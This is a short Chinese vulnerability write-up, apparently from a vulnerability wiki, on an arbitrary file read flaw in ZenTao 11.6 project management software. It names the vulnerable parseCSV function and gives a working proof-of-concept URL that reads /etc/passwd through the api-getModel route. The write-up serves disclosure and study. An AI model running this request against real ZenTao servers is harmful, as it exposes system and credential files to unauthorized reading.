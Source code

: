 禅道 11.6 任意文件读取
======================

一、漏洞简介
------------

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
厂商官网：<https://www.zentao.net/>
而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

二、漏洞影响
------------

禅道 11.6

禅道开源版 9版本

三、复现过程
------------

漏洞代码位于module/file/model.php中的parseCSV函数

![](/Users/aresx/Documents/VulWiki/.resource/禅道11.6任意文件读取/media/rId25.png)

这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据
漏洞poc为：

    http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd

image
